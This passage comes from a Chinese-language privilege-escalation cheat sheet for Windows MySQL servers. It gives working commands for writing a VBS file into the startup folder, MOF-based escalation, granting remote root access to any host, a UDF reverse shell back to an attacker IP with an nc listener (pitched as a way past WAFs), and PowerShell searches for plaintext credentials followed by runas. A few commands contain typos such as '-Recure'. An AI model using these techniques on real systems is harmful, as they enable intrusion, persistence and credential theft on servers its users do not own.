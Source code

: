   * （4）好了，现在我们来看看表a中有些什么
    ```mysql
    mysql>select * from a;
    ```
    我们将会看到表中有三行数据，就是我们刚刚输入的内容，确认你输入的内容无误后，我们来到下一步
  * （5）输出表为一个VBS的脚本文件
    ```mysql
    mysql>select * from a into outfile "c://docume~1//administrator//「开始」菜单//程序//启动//a.vbs";
    ```
  * （6）重启即可

* **mof提权**
  * （1）上传mof.php，输入相关信息，执行命令，提权。
  * （2）上传文件x.mof，使用select命令导出入到正确位置
    ```mysql
    select load_file('C:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'
    ```
  * （3）允许外部地址使用root用户连接的sql语句
    ```
    Grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;
    ```

* **反链端口提权**
  * 原理：让调出的cmd反向连接黑客，一般waf拦截进入的流量，不拦截出去的流量，所以可以使用反弹链接过掉waf
  * （1）利用mysql客户端工具连接mysql服务器，然后执行下面的操作。
    ```cmd
    执行命令
    mysql.exe -h 172.16.10.11 -uroot -p
    Enter password:
    mysql> \. c:\mysql.txt
    mysql>select backshell("YourIP",2010);
    ```
  * （2）本地监听你反弹的端口
    ```cmd
    nc.exe -vv -l -p 2010
    ```
    成功后，你将获得一个system权限的cmdshell，其实这个也是利用的UDF提权。



### 【利用明文敏感信息提权】

* **查找有关明文敏感信息**
  * （1）利用提权信息枚举方法论，全面了解主机，一般敏感信息存储在一些会议文件，配置文件，文档等等
  * （2）确定敏感信息的类型后使用Get-ChildItem获取文件位置
    ```powershell
    Get-ChildItem -Path c:\xampp -Include *.txt,*.ini -File -Recure -ErrorAction SilentlyContinue
    ```
    这个powershell语句可以查询xampp应用中的配置文件
    ```powershell
    Get-ChildItem -Path c:\Users\dave\ -Include *.txt,*.pdf -File -Recure -ErrorAction SilentlyContinue
    ```
  * （3）当获得账号密码时查看用户是否可以远程登录，登录后再次进行铭感信息收集
    ```powershell
    runas /user:Tom@123.com cmd
    ```
    powershell切换用户
    